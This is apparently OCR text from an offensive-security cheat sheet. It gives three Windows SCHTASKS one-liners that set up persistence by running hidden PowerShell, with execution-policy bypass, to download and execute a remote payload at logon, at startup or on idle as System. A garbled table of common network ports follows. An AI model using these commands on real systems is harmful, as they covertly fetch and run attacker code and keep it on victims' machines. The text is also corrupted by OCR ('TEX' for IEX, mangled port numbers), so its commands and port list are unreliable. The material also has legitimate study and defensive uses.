 # (x86) on User Login
SCHTASKS /CREATE /TN Task Name /TR
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'TEX ((new-object net.webclient).downloadstring("http:// ip : port / payload "'))'" /SC onlogon /RU System

# (x86) on System Start
SCHTASKS /CREATE /TN Task Name /TR
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'TEX ((new-object net.webclient).downloadstring("http:// ip : port / payload "'))'" /SC onstart /RU System

# (x86) on User Idle (30 Minutes)
SCHTASKS /CREATE /TN Task Name /TR
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'TEX ((new-object net.webclient).downloadstring("http:// ip : port / payload "'))'" /SC onidle /i 30


# NETWORKING

21	FTP             520	RIP
22	SSH             546/~	DHCPv60	
23	Telnet          902	VMWare
25	SMTP           	1080	Socks Proxy 
49	TACAC          	1194	VPN
53	DNS           	1433/4	MS-SQL 
6-/8	DHCP	(UDP)  	1521	Oracle
69	TFTP	(UDP)  	1629	DameWare
80	HTTP           	2049	NFS
88	Kerberos       	3128	Squid Proxy
110	POP3          	3306	MySQL
111	RPC             3389	RDP
123	NTP	(UDP)  	5060	SIP
135	Windows RPC     5222 	Jabber
13-	NetBIOS       	5432	Postgres
138	NetBIOS       	5666	Nagios
139	SMB           	5900	VNC
143	IMAP          	6000	X11
161	SNMP	(UDP)  	6129	DameWare
1-9	BGP           	666-	IRC
201	AppleTalk     	9001	Tor
389	LDAP          	9001	HSQL
443	HTTPS         	9090/1	Openfire
445	SMB           	9100	Jet Direct
500	ISAKMP	(UDP)   58~	SMTP
514	Syslog
